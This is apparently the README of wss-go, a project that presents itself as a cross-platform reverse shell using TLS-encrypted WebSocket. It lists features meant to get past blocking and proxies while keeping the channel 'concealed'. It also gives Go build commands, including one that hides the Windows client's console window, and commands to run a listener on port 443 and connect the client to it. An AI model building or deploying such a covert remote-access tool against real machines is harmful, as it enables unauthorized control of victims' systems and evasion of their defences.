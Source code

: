 # wss-go
wss-go is a reverse shell using websocket with tls.

Work for Windows, Linux, MacOS.

## Documentation

- [English](https://github.com/piaolin/wss-go/blob/main/README.md)

- [中文文档](https://github.com/piaolin/wss-go/blob/main/README_ZH.md)

## Introduction

Use Websocket for communication and use SSL certificate for encryption.

## Features

- The HTTP protocol is used in the handshake phase, so it is not easy to block during the handshake and can pass through various HTTP proxy servers.
- Use SSL certificate for encryption.
- The data format is relatively lightweight, the performance overhead is small, and the communication is efficient and concealed.

## Usage
### Windows

```shell
go env -w GOOS=windows
go build -o wssServer.exe server/server.go
go build -o wssClient.exe -ldflags -H=windowsgui -ldflags "-s -w" client/client.go
```

### Screenshots

![](https://i.loli.net/2021/08/29/gHhY4RaGOcDAdnp.png)
![](https://i.loli.net/2021/08/29/YQVOlgW28pmqsto.png)

### MacOS & Linux

```shell
go env -w GOOS=darwin/linux
go build -o wssServer server/server.go
go build -o wssClient client/client.go
./wssServer -addr 0.0.0.0:443
./wssClient -addr 127.0.0.1:443
```

### Screenshots

![](https://i.loli.net/2021/08/29/gExYGVKBzpte1Pv.png)

## TODO

- RSA & AES
